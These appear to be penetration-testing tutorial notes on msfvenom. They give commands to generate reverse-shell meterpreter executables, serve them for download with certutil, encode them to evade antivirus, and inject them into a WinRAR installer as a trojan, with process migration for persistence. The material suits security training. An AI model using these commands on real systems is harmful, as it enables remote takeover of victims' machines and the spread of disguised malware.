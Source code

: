 # i - Payloads

## Generating Payloads With Msfvenom

**Client-side Attacks**

* A client-side attack is an attack vector that involves coercing a client to execute a malicious payload on their system that consequently connects back to the attacker when executed.
* Client-side attacks typically utilize various social engineering techniques like generating malicious documents or portable executables (PEs).
* Client-side attacks take advantage of human vulnerabilities as opposed to vulnerabilities in services or software running on the target system.
* Given that this attack vector involves the transfer and storage of a malicious payload on the client's system (disk), attackers need to be cognisant of AV detection.

### **Msfvenom**

* Msfvenom is a command line utility that can be used to generate and encore MSF payloads for various operating systems as well as web servers.
* Msfvenom is a combination of two utilities, namely; msfpayload and msfencode.
* We can use Msfvenom to generate a malicious meterpreter payload that can be transferred to a client target system. Once executed, it will connect back to our payload handler and provide us with remote access to the target system.

## **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
msfvenom -h # Open the msfvenom help page.
msfvenom --list payloads # List every Msfvenom payloads.
msfvenom --list formats # List every format Msfvenom can generate payloads with

# windows/x64/meterpreter/reverse_tcp is a staged payload.
# windows/x64/meterpreter_reverse_tcp is a non-staged payload.

msfvenom -a <x86 or x64> -p <payload> LHOST=$kali_ip LPORT=<localPort> -f exe > /home/kali/Desktop/payload.exe #Generate a payload with Msfvenom.

# We then have to transfer the payload to the target system and setup a listener to connect to it
# In Kali:
sudo python -m SimpleHTTPServer 80 #Start a web server in the current directory
msf5 > use multi/handler #Set up a listener
# In target system:
CMD > certutil -urlcache -f http://<localIP>/<file> <file> #Download the payload from the Kali HTTP server and execute it
# You then should receive a shell on your Kali!.
```
{% endcode %}



## Encoding Payloads With Msfvenom

**Encoding Payloads With Msfvenom**

* Given that this attack vector involves the transfer and storage of a malicious payload on the client's system (disk), attackers need to be cognisant of AV detection.
* Most end user AV solutions utilize signature based detection in order to identify malicious files or executables.
* We can evade older signature based AV solutions by encoding our payloads.
* Encoding is the process of modifying the payload shellcode with the objective of modifying the payload signature.

**Shellcode**

* Shellcode (shell-code) is a piece of code typically used as a payload for exploitation.
* It gets it's name from the term command shell, whereby shellcode is a piece of code that provides an attacker with a remote command shell on the target system.

## **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
msfvenom --list encoders #List every Msfvenom encoders
msfvenom <...> -e <encoderName> <...> #Generate a payload and encode it.

#The more you encode a payload (number of iterations), the more you will have chances to succeed AV evasion. More than 10 will not to a lot though.
msfvenom <...> -i <numberOfIterations> -e <encoderName> <...> #Generate and encode a payload with more a specified number of iterations.
```
{% endcode %}



## Injecting Payloads Into Windows Portable Executables

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
msfvenom <...> -x <pathToPE> <...> #Inject the payload into a portable executable
# You can use the -k flag so the PE will execute as intended in addition to execute the payload BUT this will not work for most PEs

# The process
# we will be using the "winrar" application for windows.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$kaliIP LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -x ~/Downloads/winrar602.exe > winrar.exe
# transfer the "winrar.exe" to the victim.
# this will just run the payload when executed without running the actual setup, to get the file to run the actual setup, we have tospecify the "-k" option.

# in case of windows, we can use the [post/windows/manage/migrate] modult to migrate our session into another process in order for use to maintain access if the victim terminates the process.
msf6 > use post/windows/manage/migrate
```
{% endcode %}




